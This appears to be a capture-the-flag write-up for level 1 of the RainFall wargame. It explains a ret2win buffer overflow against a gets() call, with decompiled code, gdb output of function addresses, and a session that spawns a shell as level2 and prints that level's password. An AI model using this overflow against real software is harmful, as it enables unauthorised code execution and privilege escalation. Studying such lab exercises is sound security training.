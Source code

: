 # Level 1

Decompiling the main function, we can see that the binary is vulnerable to a buffer overflow attack. The gets function is used to read input from the user and store it in the local_50 buffer. The gets function does not check the size of the input and can write more data than the buffer can hold, causing a buffer overflow and therefore we can perform a ret2win attack.


```


void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}


void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}

```

let's find the address of the run function 

```bash
(gdb) info func
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

the address of the run function is 0x08048444


now we can easily exploit the binary by overflowing the buffer with 76 bytes and then overwriting the return address with the address of the run function

```bash
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```